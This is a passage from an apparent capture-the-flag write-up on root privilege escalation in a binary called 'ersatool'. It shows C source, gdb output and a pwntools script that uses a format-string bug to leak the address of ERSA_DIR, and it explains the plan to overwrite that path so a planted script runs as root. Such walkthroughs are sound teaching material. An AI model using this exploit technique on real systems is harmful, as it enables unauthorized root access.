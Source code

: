     
    
     94     memset(EASYRSA,0,sizeof(EASYRSA));
     95     strcat(EASYRSA,ERSA_DIR);
     96     strcat(EASYRSA,"/easyrsa");
    

Basically it’s the global `ERSA_DIR` \+ “/easyrsa”. This means that if I can
overwrite the `ERSA_DIR` variable with a different path that I can write to, I
can drop a Bash script named `easyrsa` to that dir and it will be run as root.

I will need to switch to running the tool in interactive mode, with no
arguments, so that I can overwrite the memory with the `printCN` call, and
then trigger it with `createCN`.

#### Script Leak

I want to leak the address of `ERSA_DIR`, which means I need to know the
offset from `ETX`. In `gdb` I can print both addresses:

    
    
    gdb-peda$ x/s &EXT
    0x55555555915f <EXT>:   ".ovpn"
    gdb-peda$ x/s &ERSA_DIR
    0x5555555590f0 <ERSA_DIR>:      "/opt/easyrsa"
    

Or I can just print the difference:

    
    
    gdb-peda$ p &EXT - &ERSA_DIR
    warning: Type size unknown, assuming 1. Try casting to a known type, or void *.
    $9 = 0x6f
    

I’ll start a script that will handle using the format vuln to leak the address
of `ERSA_DIR`:

    
    
    #!/usr/bin/env python3
    
    from pwn import *
    
    
    p = process('./ersatool')
    
    p.recv(64)               # read # prompt
    p.sendline(b"print")     # enter print menu
    p.recvuntil(b"CN=")      # read up to CN= prompt
    p.sendline(b"%016p")     # get first pointer from the stack
    leak = p.recv(1024)    
    ext_addr = int(leak.split(b'[')[0], 16)    
    ersa_dir_addr = ext_addr - 0x6f    
    
    log.success(f'Leaked EXT address:          0x{ext_addr:016x}')    
    log.success(f'Calculated ERSA_DIR address: 0x{ersa_dir_addr:016x}')       
    
    p.interactive()
    
